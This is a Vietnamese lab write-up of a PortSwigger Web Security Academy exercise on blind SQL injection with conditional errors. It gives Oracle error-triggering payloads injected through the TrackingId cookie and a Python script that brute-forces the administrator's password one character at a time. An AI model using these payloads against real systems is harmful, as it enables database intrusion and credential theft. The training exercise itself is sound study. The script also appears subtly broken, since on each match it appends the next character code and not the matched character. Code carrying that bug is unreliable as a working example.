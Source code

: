 Một cách khác là mình sẽ dùng Burp Intruder nhưng mà chỉnh tay khá là chậm và mình cũng muốn viết script một chút để nâng trình.

## Lab 12: Blind SQL injection with conditional errors
Description: Database chứa 1 bảng là users có 2 cột là username và password. Tấn công blind SQLi để lấy được pass của admin và đăng nhập. Kết quả của query SQL sẽ không được trả về, app sẽ không response, nhưng nếu có lỗi, nó sẽ hiện lên.

Khi đọc docs của portswigger, mình có thể sử dụng câu query sau để làm bài lab này. 
`SELECT CASE WHEN (CONDITION) THEN a ELSE b END`

Đại khái thì nó giống toán tử 3 ngôi trong các ngôn ngữ lập trình hiện đại, nếu condition của bạn đúng thì nó sẽ trả về a, nếu không thì nó sẽ trả về b. 
Ở đây, nếu muốn kích hoạt 1 lỗi với câu query trên nó sẽ có dạng như sau
```sql=
(SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
(SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'
```

Nếu bạn sử dụng payload thứ 2 thì nó sẽ lỗi, do 1=1 đúng nên nó sẽ trả về 1/0 - một phép chia không hợp lệ và sẽ lỗi. 
Trong cheatsheet của portswigger có đầy đủ lỗi này với các database phổ biến
![image](https://hackmd.io/_uploads/rJrTeUf3p.png)

Đối với bài lab này, mình thử payload trong docs không được cho nên thử trong cheatsheet với payload của Oracle thì đúng. 
![image](https://hackmd.io/_uploads/H17BWLG3T.png)
![image](https://hackmd.io/_uploads/SkDHWUM3p.png)

Xác định database thành công, tiếp theo đi sâu hơn. Mình đã có tên table cùng với 2 cột mà đề cung cấp.

Đầu tiên sử dụng thử payload trong docs, nhưng mà cái nào cũng hiện lỗi. Điêu ác !?
`sA1EYisedbBhBIcp' AND (SELECT CASE WHEN (username='administrator' AND SUBSTR(password,1,1)='b') THEN TO_CHAR(1/0) ELSE 'a' END FROM users)='a`

Sau đó, chuyển phần `username = 'administrator'` xuống sau `FROM users` thì mới được. (Do check thử 2 payload với intruder)
`sA1EYisedbBhBIcp' AND (SELECT CASE WHEN (SUBSTR(password,1,1)='z') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a`

Còn check length của password nữa với payload sau và `len(password) = 20`
`sA1EYisedbBhBIcp' AND (SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a`

Mình sử dụng lại script ở bài trước
```python=
import requests
import string
url = 'https://0a53002d038957c580d2406600c30067.web-security-academy.net'
session = '3bk8ou8UinagMfLUICNl3lxEav61J8Py'
trackId = 'sA1EYisedbBhBIcp'
password = ""
for i in range(1,21):
    check = False
    for j in [x for x in string.ascii_lowercase + string.digits][::-1]:
        trackingValue = f"{trackId}' AND (SELECT CASE WHEN (SUBSTR(password,{i},1)='{j}') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a"
        cookie_values = {'TrackingId': trackingValue, 'session': session}
        response = requests.get(url, cookies=cookie_values)
        if 'Internal Server Error' in response.text:
            check = True
            password += chr(ord(j) + 1)
            break

print(password)
```